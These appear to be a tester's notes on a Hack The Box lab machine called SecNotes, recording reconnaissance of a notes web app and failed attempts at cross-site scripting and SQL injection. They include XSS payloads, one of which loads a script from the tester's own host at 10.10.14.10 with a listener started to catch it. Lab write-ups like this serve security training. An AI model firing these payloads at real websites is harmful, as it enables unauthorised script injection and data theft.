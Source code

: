 ![](img/web-home.png)

Notice the email in the GDPR label:

- tyler@secnotes.htb

Inspecting source, see new pages:

- submit_note.php
- change_pass.php

Created new note, tried injecting XSS:

- title: `test<script>alert(1)</script>`
- body: `<script>alert(document.domain)</script>`

That made a note, but no alerts popped up.

Tried sending payload:

- `<script src=http://10.10.14.10/test.js></script>`

Start http listener on port 80:

```sh
sudo python3 -m http.server 80
```

But don't get hits.

Creating test posts makes them show up on main page with "delete" button next to them.

- http://10.10.10.97/home.php?action=delete&id=9%22

Can't seem to do SQL injection on ID field, though.  Tried adding single and double quotes, with action `show` and `display`.
